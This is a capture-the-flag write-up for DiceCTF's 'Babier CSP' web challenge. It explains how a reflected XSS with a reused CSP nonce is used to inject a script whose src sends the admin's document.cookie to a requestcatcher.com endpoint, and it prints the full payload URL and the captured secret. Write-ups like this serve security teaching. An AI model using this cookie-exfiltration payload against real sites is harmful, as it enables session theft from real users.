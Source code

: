 # DiceCTF-Writeup
# Babier CSP Challenge by notdeghost
[TL;DR at the bottom](#tldr)
## Getting XSS
When you visit the [challenge website](https://babier-csp.dicec.tf/) you are welcomed by a link with the name 'View Fruit'.
When clicked, it adds the get paramater ?name to the url with the value of a random Fruit.

The `name` value is just echoed back into the sites html. The challenge description also tells you, that your objective is to steal the admins
cookies which greatly hints towards a cross site scripting attack (XSS) -- So let's do that!

When you try to access `<site>?name=<script>alert(1)</script>` , nothing happens though. If you have a look at the main sites html using burp to intercept to
the request, you see that, the "View Fruit" link works with javascript and it has a nonce value set!

![Burp request intercept](https://github.com/the-lightstack/DiceCTF-Writeup/blob/main/burp_babier_csp.png)

Now let's add this nonce to our payload:
`https://babier-csp.dicec.tf/?name=<script nonce="LRGWAXOY98Es0zz0QOVmag==">alert(1)</script>`
(From now on I will just show you the payload, not the full url)

An alert box pops up and the XSS worked!

## How to steal the Cookie

This is the part I struggled with.
The main idea is to add the cookies (found in `document.cookie`) to a get request to a service you can inspect the requests arriving.
I decided to go with [requestcatcher](https://requestcatcher.com/).
If we try to fetch a get request out of the browsers debug console from the target website to our bin, nothing arrives and fetch returns "rejected".

Now was the time I had a look into the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) (content security policy), which from my understanding tells the browser who it may make get requests to out of the websites context.

For the challenge website this header is set to following:
`Content-Security-Policy: default-src none; script-src 'nonce-LRGWAXOY98Es0zz0QOVmag==';`

This means first disallow every outgoing request and only allow requests for a script source, if the script has the nonce value = <nonce-value> set.

So we may fetch a script source to where ever we want to!

```html
</h1>                                             <= close open h1 tag from site html
<script nonce="LRGWAXOY98Es0zz0QOVmag==">         <= open script tag with nonce value so it executes
var head=document.getElementsByTagName('head')[0];<= get a reference to the html head element on the page
var script= document.createElement('script');     <= create a new script tag
script.src= ('https://givemeflag.requestcatcher.com/?flag='.concat(JSON.stringify(document.cookie))); <= setting the new script-tags src to our requestcatcher
                                                                                                          with the cookies appended as a get parameter
script.nonce="LRGWAXOY98Es0zz0QOVmag==";          <= setting the new script tag`s nonce so it will execute too
head.appendChild(script);                         <= finally appending it to the documents head, which will automatically execute it
</script>
</h1>
```

When the our new script tag is then executed, it want's to and is allowed to request it's "source" which in fact is our requestbin and we after we send the following link to the bot, a GET request will pop up in our bin.
Link: `https://babier-csp.dicec.tf?name=</h1><script nonce="LRGWAXOY98Es0zz0QOVmag==" >var head=document.getElementsByTagName('head')[0]; var script= document.createElement('script');script.src= ('https://givemeflag.requestcatcher.com/?flag='.concat(JSON.stringify(document.cookie)));script.nonce="LRGWAXOY98Es0zz0QOVmag==";head.appendChild(script);</script></h1>`

The incoming request:
![Request](https://github.com/the-lightstack/DiceCTF-Writeup/blob/main/request_catcher_request.png)

So the GET request we caught 
`GET /?flag=%22secret=4b36b1b8e47f761263796b1defd80745%22 HTTP/1.1`
reveals "4b36b1b8e47f761263796b1defd80745" to be our token. 

If we have a quick look into the index.js source code we could download from the diceCTF website, this part 

```js
app.use('/' + SECRET, express.static(__dirname + "/secret"));
```
reveals how to move on.
Let's plug our token into the url like so `/4b36b1b8e47f761263796b1defd80745`

The new pages source code:
```

I'm glad you made it here, there's a flag!

<b>dice{web_1s_a_stat3_0f_grac3_857720}</b>

If you want more CSP, you should try Adult CSP.

```
Hey!
`dice{web_1s_a_stat3_0f_grac3_857720}` is our flag!
<br>

## TL;DR
Add nonce value to script tag and fetch script src with cookie appended to circumvent the CSP.
<br>
Thanks for reading and hope you learned something new,<br>
LightStack<br>




